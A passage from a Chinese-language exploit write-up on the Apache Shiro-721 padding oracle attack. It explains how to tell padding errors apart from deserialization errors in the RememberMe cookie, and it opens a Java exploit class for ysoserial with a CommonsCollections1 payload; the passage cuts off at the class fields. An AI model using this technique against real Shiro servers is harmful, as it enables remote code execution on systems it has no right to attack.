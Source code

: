 一路异常抛出，最终在`AbstractRememberMeManager#getRememberedPrincipals`中被捕捉，操作是在response中添加一个`rememberMe=deleteMe`

![image-20241111144504709](./images/image-20241111144504709.png)

然而有一个问题是，RememberMe在解密后还会进行反序列化操作，如果反序列化失败也会抛出异常，而且最终也会在`AbstractRememberMeManager#getRememberedPrincipals`中被捕获，同样地在response中添加一个`rememberMe=deleteMe`。

这就使得我们无法辨析填充序列到底是不是正确的，那是否有办法区分这两种情况呢？很幸运，由于java反序列化的特性，在java序列化字节的尾部添加一些无用的字节是不影响java反序列化的，所以我们可以在一个合法的RememberMe尾部添加两个8字节分组，第一个分组作为IV使用，第二个分组作为我们要翻转攻击的密文。如果填充正确，尾部多余的字节不影响RememberMe反序列化，不会抛出异常返回`rememberMe=deleteMe`，这样一来，我们就可以辨析填充序列是否正确。

##### 攻击代码

参考[longofo/PaddingOracleAttack-Shiro-721: Shiro-721 Padding Oracle Attack](https://github.com/longofo/PaddingOracleAttack-Shiro-721)，添加到ysoserial，ArrayUtil直接复制过去，Poracle做了一些修改以适应ysoserial，添加了之前分辨填充模式的代码，需要把该项目的日志配置文件也移植到ysoserial

![image-20241112111825895](./images/image-20241112111825895.png)

```java
package ysoserial.exploit;

import org.apache.http.Header;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClients;
import org.apache.log4j.Logger;
import ysoserial.Serializer;
import ysoserial.exploit.utils.ArrayUtil;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import java.io.IOException;
import java.util.Arrays;
import java.util.Base64;
import java.util.Random;

public class Shiro721Exploit {
    private static Logger logger = Logger.getLogger(Shiro721Exploit.class.getClass());
    private byte[] plainText;
    private int blockSize;
    private int encryptBlockCount;
    private String url;
    private String loginRememberMe;
```